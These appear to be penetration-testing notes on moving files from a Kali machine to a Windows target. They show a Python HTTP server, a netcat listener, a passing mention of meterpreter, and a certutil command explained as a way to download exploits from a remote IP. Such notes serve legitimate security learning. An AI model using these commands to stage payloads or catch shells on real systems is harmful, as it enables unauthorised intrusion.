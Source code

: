 Python has a built-in HTTP server module that can be used to set up a simple HTTP server. Here's how:

1.  Open a terminal on your Kali Linux machine.
2.  Navigate to the directory where you want to serve files from. For example, let's say you want to serve files from the `/home/kali/Desktop` directory:

```
cd /home/kali/Desktop
```

3.  Start the Python HTTP server using the following command:
    
    ```
    python3 -m http.server 80
    or 
    python -m SimpleHTTPServer 80
    ```
    

This will start an HTTP server on port 80, which is the default port for HTTP.

4.  By default, the server will serve files from the current working directory (`/home/kali/Desktop` in this case).
    
5.  You can access the HTTP server by visiting `http://localhost:80` or `http://your-kali-ip:80` in a web browser.
    

method 2: Using <span style="color: #2dc26b;">**==netcat listener nc==**</span>

```
nc -nlvp 444
```

method 3:Using <span style="color: #2dc26b;">meterpreter</span>

# WINDOWS MACHINE downloading exploits

<span style="color: #d1d5db;"><span style="color: #000000;">==CertUtil== to download a file from a remote location</span>!</span>

```
 certutil -urlcache -f <http://ip/path> filename {to store with}
 
```

is a clever way to download a file from a web server using CertUtil, a built-in Windows tool

Here's a breakdown of the command:

- [ ] `certutil`: This is the CertUtil command-line tool, which is typically used for managing certificates and certificate revocation lists (CRLs). However, it also has a lesser-known feature that allows it to download files from URLs.
    
- [ ] `-urlcache`: This option tells CertUtil to use the URL cache feature, which allows it to download files from a specified URL.
    
- [ ] `-f`: This option forces CertUtil to download the file, even if it already exists in the cache.
    